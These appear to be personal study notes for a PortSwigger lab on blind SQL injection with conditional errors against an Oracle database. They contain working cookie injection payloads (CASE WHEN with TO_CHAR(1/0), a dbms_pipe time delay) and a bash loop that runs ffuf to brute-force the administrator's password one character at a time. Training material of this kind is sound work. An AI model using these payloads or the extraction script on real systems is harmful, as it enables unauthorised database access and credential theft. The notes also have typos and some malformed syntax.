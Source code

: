https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

### Confirm SQLI
Let's confirm the existence of this

As a simple bolean like `' AND '2'='1` doesn't change anything from the response we need to use a conditional instead, just like `' CASE WHEN ('2'='1') THEN 1/0 ELSE 'a' end ='a`
![[Pasted image 20241108165937.png]]

### Determine RDBMS
But wuickly we notice that every query is throwing an error, because we are constructing invalid queries for it version. To determine the RDBMS we could try database-specific functions:
###### confirm RDBMS:

Use the cheat sheet https://portswigger.net/web-security/sql-injection/cheat-sheet
If this injection isn't triggering an error
```sql
''foo'||'bar''
```
it's because it's and oracle RDBMS
### Generating conditional
From the cheat sheet we know that the concatenation in Oracle is like `'foo'||'bar'` and the sql subprocess goes between prenthesis. 
So we should go
```sql
xyz'||(SELECT NULL FROM DUAL)||'
```
From dual it's single-column table created by default in all Oracle databases, and we're selecting null from it, so we are in the right track, now let's get this harder.
We use `TO_CHAR()` for the number, so 
```cookie
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```
But instead of using `'a'`, oracle used `''`  to return "nothing" or simply a placeholder becomes
```cookie
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL )||'
```
And the backend use it like this
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='' || (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' FROM DUAL END) || '' || (SELECT 'a' FROM users LIMIT 1)='a'
```

### Enumerating

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=''||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||''
```
```cookie
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

SUBSTRING('foobar', 4, 2)
```cookie
'SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual'
```
is similar to the syntax we saw in [[summary_SQLI]] but 

```sh
or (( i=1; i<=20; i++ )); do
ffuf -u "https://0abd00bf031c89fa81b0e5c800dd001d.web-security-academy.net/" -w alpha-numeric.txt -v  -H "Cookie: TrackingId=DfwkYx14uMMtfOrb'||(SELECT CASE WHEN SUBSTR(password,$i,1)='FUZZ' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=WMSBepybGJgrFBe0LVU4Jka3fb1ovJMX" -ac -t 100 -s >>./password.txt
done                                                      
cat password.txt | tr -d "\n" | xclip -selection clipboard
```